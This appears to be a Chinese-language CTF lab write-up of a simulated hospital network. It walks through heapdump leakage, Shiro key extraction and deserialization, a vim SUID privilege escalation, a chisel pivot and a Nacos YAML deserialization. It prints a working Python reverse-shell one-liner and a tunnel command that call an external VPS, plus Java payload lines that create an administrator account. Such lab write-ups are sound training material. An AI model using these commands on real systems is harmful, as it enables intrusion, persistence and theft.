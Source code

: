 # Hospital

在这个场景中，你将扮演一名渗透测试工程师，被派遣去测试某家医院的网络安全性。你的目标是成功获取所有服务器的权限，以评估公司的网络安全状况。该靶场共有 4 个 flag，分布于不同的靶机。

<!-- truncate -->

:::info

Tags

- 内网渗透
- Nacos
- Shiro
- Fastjson
- Decrypt

:::

```plaintext title="入口点"
39.98.116.141
```

## 入口点探测

```plaintext
start infoscan
39.98.116.141:22 open
39.98.116.141:8080 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://39.98.116.141:8080 code:302 len:0      title:None 跳转 url: http://39.98.116.141:8080/login;jsessionid=F56DD760EA13EF7948D3B0BE8D1372C4
[*] WebTitle http://39.98.116.141:8080/login;jsessionid=F56DD760EA13EF7948D3B0BE8D1372C4 code:200 len:2005   title: 医疗管理后台
[+] PocScan http://39.98.116.141:8080 poc-yaml-spring-actuator-heapdump-file
```

扫一下目录

```plaintext
[21:53:39] 200 -    1KB - /actuator
[21:53:39] 200 -   20B  - /actuator/;/caches
[21:53:39] 200 -   15B  - /actuator/;/health
[21:53:40] 200 -   93KB - /actuator/;/conditions
[21:53:40] 200 -   74KB - /actuator/;/beans
[21:53:40] 200 -    2B  - /actuator/;/info
[21:53:40] 200 -    8KB - /actuator/;/configprops
[21:53:40] 200 -  749B  - /actuator/;/metrics
[21:53:40] 200 -   20KB - /actuator/;/mappings
[21:53:40] 200 -   54B  - /actuator/;/scheduledtasks
[21:53:40] 200 -   53KB - /actuator/;/loggers
[21:53:40] 200 -   20B  - /actuator/caches
[21:53:40] 200 -    8KB - /actuator/configprops
[21:53:40] 200 -   15B  - /actuator/health
[21:53:41] 200 -    2B  - /actuator/info
[21:53:41] 200 -  749B  - /actuator/metrics
[21:53:41] 200 -   20KB - /actuator/mappings
[21:53:41] 200 -   54B  - /actuator/scheduledtasks
[21:53:41] 200 -   93KB - /actuator/conditions
[21:53:41] 200 -   74KB - /actuator/beans
[21:53:41] 200 -  127KB - /actuator/;/threaddump
[21:53:41] 200 -   53KB - /actuator/loggers
[21:53:41] 200 -  126KB - /actuator/threaddump
[21:53:44] 200 -  118MB - /actuator/;/heapdump
[21:53:46] 200 -   34MB - /actuator/heapdump
[21:54:29] 200 -    2KB - /login
```

发现存在 heapdump 泄露，使用 [whwlsfb/JDumpSpider: HeapDump 敏感信息提取工具](https://github.com/whwlsfb/JDumpSpider) 进行分析

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ java -jar ~/tools/JDumpSpider-1.1-SNAPSHOT-full.jar ~/tmp/heapdump
===========================================
CookieRememberMeManager(ShiroKey)
-------------
algMode = CBC, key = GAYysgMQhG7/CzIJlVpR2g==, algName = AES
```

那就很明显了，打 shiro 反序列化

## 入口点 shiro 反序列化

直接利用工具

![img](img/image_20250100-220021.png)

利用 CommonsBeanutils1 链子进行攻击，直接利用环境已有的 pytohn3 反弹 shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.129.29.180",9111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

成功收到回连

```bash
(remote) app@web01:/home/app$ whoami
app
```

## 入口点 提权

基于 PEASS-ng 进行探测

```plaintext
# 1
Vulnerable to CVE-2021-3560

# 2 suid
/usr/bin/vim.basic
/usr/bin/su
/usr/bin/newgrp
/usr/bin/staprun
/usr/bin/at
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/stapbpf
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

其中 `/usr/bin/vim.basic` 就是 vim 程序，可以直接提权

参考 [vim | GTFOBins](https://gtfobins.github.io/gtfobins/vim/)

最终成功得到root权限

```bash
(remote) app@web01:/tmp$ /usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
(remote) root@web01:/tmp$ whoami
root
(remote) root@web01:/tmp$ whoami
root
(remote) root@web01:/tmp$ cat /root/flag/flag01.txt
sh: 5: catt/flag/flag01.txt: not found
(remote) root@web01:/tmp$ cat /root/flag/flag01.txt
O))     O))                              O))             O))
O))     O))                          O)  O))             O))
O))     O))   O))     O)))) O) O))     O)O) O)   O))     O))
O)))))) O)) O))  O)) O))    O)  O)) O))  O))   O))  O))  O))
O))     O))O))    O))  O))) O)   O))O))  O))  O))   O))  O))
O))     O)) O))  O))     O))O)) O)) O))  O))  O))   O))  O))
O))     O))   O))    O)) O))O))     O))   O))   O)) O)))O)))
                            O))                             
flag01: flag{a5d80f8e-3aca-46f0-b686-2120183080b0}
```

## 内网探测

```plaintext
(remote) app@web01:/tmp$ ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.30.12.5  netmask 255.255.0.0  broadcast 172.30.255.255
        inet6 fe80::216:3eff:fe31:aa0  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:31:0a:a0  txqueuelen 1000  (Ethernet)
        RX packets 134410  bytes 149624849 (149.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 64379  bytes 54100576 (54.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1356  bytes 117711 (117.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1356  bytes 117711 (117.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

使用fscan进行扫描

```bash
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.30.12.6     is alive
(icmp) Target 172.30.12.5     is alive
(icmp) Target 172.30.12.236   is alive
[*] Icmp alive hosts len is: 3
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.236:22 open
172.30.12.5:22 open
172.30.12.6:8848 open
172.30.12.236:8080 open
172.30.12.5:8080 open
172.30.12.6:445 open
172.30.12.236:8009 open
[*] alive ports len is: 9
start vulscan
[*] WebTitle http://172.30.12.5:8080   code:302 len:0      title:None 跳转url: http://172.30.12.5:8080/login;jsessionid=00236AC1CDAD331B40996039D6B45AE9
[*] NetInfo 
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02            
[*] WebTitle http://172.30.12.5:8080/login;jsessionid=00236AC1CDAD331B40996039D6B45AE9 code:200 len:2005   title:医疗管理后台
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
```

建立内网代理

```bash
# vps
root@jmt-projekt:~# ./tools/chisel_1.10.1/chisel_1.10.1_linux_amd64 server -p 9111 --reverse
2025/01/31 22:29:55 server: Reverse tunnelling enabled
2025/01/31 22:29:55 server: Fingerprint aJ0gszNkS6fbIPXignmil8GEMz9HIqldsgbf2UnVmMA=
2025/01/31 22:29:55 server: Listening on http://0.0.0.0:9111

# target
(remote) app@web01:/tmp$ ./chisel_1.10.1_linux_amd64 client 8.129.29.180:9111 R:0.0.0.0:10000:socks &
[1] 19534
2025/01/31 22:30:40 client: Connecting to ws://8.129.29.180:9111
2025/01/31 22:30:40 client: Connected (Latency 51.577505ms)
```

## 172.30.12.6 Nacos

直接使用[charonlight/NacosExploitGUI: Nacos漏洞综合利用GUI工具](https://github.com/charonlight/NacosExploitGUI)进行利用

![img](img/image_20250135-223518.png)

尝试进行yaml反序列化，使用[artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads](https://github.com/artsploit/yaml-payload)

```java
Runtime.getRuntime().exec("net user randark randark 123 /add");
Runtime.getRuntime().exec("net localgroup Administrators randark /add");
```

编译jar包

```bash
PS D:\_Exps\yaml-payload> javac src/artsploit/AwesomeScriptEngineFactory.java
PS D:\_Exps\yaml-payload> jar -cvf exp.jar -C src/ .         
已添加清单
正在添加: artsploit/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: artsploit/AwesomeScriptEngineFactory.class(输入 = 1686) (输出 = 711)(压缩了 57%)
正在添加: artsploit/AwesomeScriptEngineFactory.java(输入 = 1655) (输出 = 424)(压缩了 74%)
正在忽略条目META-INF/
正在添加: META-INF/services/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: META-INF/services/javax.script.ScriptEngineFactory(输入 = 36) (输出 = 38)(压缩了 -5%)
```

![img](img/image_20250150-225046.png)
